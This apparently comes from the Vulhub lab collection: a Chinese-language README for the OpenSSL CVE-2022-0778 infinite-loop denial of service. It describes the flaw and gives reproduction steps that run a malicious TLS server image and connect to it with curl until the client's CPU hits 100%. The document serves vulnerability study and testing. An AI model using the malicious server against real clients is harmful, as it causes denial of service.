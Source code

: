 # OpenSSL无限循环DOS漏洞（CVE-2022-0778）

OpenSSL是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份。这个包广泛被应用在互联网的网页服务器上。

OpenSSL 1.1.1m 版本及以前存在一处逻辑缺陷，攻击者可以利用一个无效的椭圆曲线参数证书，触发一个无限循环导致耗尽目标CPU。由于证书解析发生在验证证书签名之前，任何解析外部提供的证书的进程都可能受到拒绝服务的攻击。

参考链接：

- <https://github.com/drago-96/CVE-2022-0778>
- <https://www.cnblogs.com/logchen/p/16030515.html>
- <https://catbro666.github.io/posts/83951100/>
- <https://github.com/yywing/cve-2022-0778>

## 漏洞环境

执行如下命令启动一个server：

```
docker-compose up -d
```

## 漏洞复现

首先，使用[这个项目](https://github.com/vulhub/cve-2022-0778)中的代码编译并运行一个恶意服务器。如果你没有Golang相关编译环境，也可以直接使用如下Docker命令启动：

```
docker run -it --rm -p 12345:12345 yywing/cve-2022-0778 --addr 0.0.0.0:12345
```

然后，你可以在Vulhub环境中使用`top`命令来查看此时的CPU占用：

```
docker-compose exec curl top
```

由于这个漏洞是发生在解析TLS证书时，所以我们可以使用cURL来复现这个漏洞。进入容器，并执行cURL命令访问前面启动的恶意服务器：

```
docker-compose exec curl bash
curl -k https://host.docker.internal:12345
```

此时，cURL会陷入死循环，查看`top`中的CPU占用即可发现已经100%：

![](1.png)
